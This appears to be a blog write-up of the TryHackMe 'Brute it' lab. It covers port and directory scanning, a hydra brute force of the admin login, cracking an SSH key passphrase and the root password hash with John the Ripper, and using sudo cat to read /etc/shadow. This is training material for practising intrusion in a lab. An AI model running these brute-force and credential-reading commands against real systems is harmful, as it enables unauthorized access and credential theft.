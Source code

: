 ```yaml
---
published: true
---
```


Well hello and welcome to another writeup of a room called brute it from tryhackme. It involves

- Brute forcing
- Hash cracking
- Privilege Escalation

![]({{site.baseurl}}/images/brute_it/room.jpg)

Room : [Brute it](https://tryhackme.com/room/bruteit)

So lets get started.

## Scanning For Open Ports

> nmap -A IPADDR

We get the following result :

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-19 15:35 IST
Nmap scan report for 10.10.214.54
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.95 seconds
```

We already got the answers of the first 4 questions.

So now lets hop on to the website

![]({{site.baseurl}}/images/brute_it/site.png)

## Scanning for Web Directories

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirb/common.txt

After scanning we get a /admin directory which has the following login page. Well we don't have the username or the password but after checking the source code we get the following comment :


> <!-- Hey john, if you do not remember, the username is admin -->

Pretty secure huh?

## Hail Hydra

Now lets bruteforce the login page with hydra 

> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.118.163 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"

Explaination : 

```-l admin``` : Specifying the username

```-P /usr/share/wordlists/rockyou.txt``` : Specifying the password dictionary

```10.10.118.163``` : The Target IP

```http-post-form``` : The type of attack protocol

```/admin``` : The directory of the form

```user=^USER^&pass=^PASS^``` : The login response from the form

```Username or password invalid``` : The login message if the login failed

After running hydra we get the password ```xavier```. So lets log in.

![]({{site.baseurl}}/images/brute_it/john.png)

We get the RSA key and the web flag.

## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/JohnTheRipper/ssh2John.py id_rsa > hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passpharse.

## Getting SSH

Lets try to log into ssh using john as a username as we saw that in the previous comment

![]({{site.baseurl}}/images/brute_it/sshlogin.png)

And we are in!! We get the user flag right away in john's directory.

## Privilege Escalation

Now lets look for SUIDs by running ``` sudo -l```

![]({{site.baseurl}}/images/brute_it/suid.png)

We can run ```cat``` as sudo. Looking on [GTFOBins](https://gtfobins.github.io/) I find that this will allow me to read any file. So now lets try to read the ```/etc/shadow``` file.

> LFILE=/etc/shadow
sudo cat "$LFILE"

And we get the root hash. However I also found out that you can just cat the shadow file as sudo without doing the above process. After reading the hash i copied it over to my machine and used john to get the password.

> john --wordlist=/usr/share/wordlists/rockyou.txt rhash

Now lets login.

![]({{site.baseurl}}/images/brute_it/root.png)

There you go! We completed this challenge and got all the flags! This one was a web based challenge which is a category on which I suck but still it was pretty simple and straight forward. See you next time :)
